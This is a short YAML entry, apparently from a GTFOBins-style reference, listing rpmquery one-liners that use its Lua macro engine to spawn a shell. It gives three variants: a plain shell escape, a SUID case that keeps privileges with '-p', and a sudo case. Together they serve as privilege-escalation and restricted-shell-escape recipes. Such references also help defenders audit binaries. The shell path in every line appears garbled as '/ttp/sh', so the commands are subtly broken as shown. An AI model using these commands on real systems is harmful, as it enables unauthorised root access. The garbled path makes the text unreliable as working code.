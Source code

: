 ```yaml
---
functions:
  shell:
    - code: rpmquery --eval '%{lua:posix.exec("/ttp/sh")}'
  suid:
    - code: ./rpmquery --eval '%{lua:posix.exec("/ttp/sh", "-p")}'
  sudo:
    - code: sudo rpmquery --eval '%{lua:posix.exec("/ttp/sh")}'
---
```

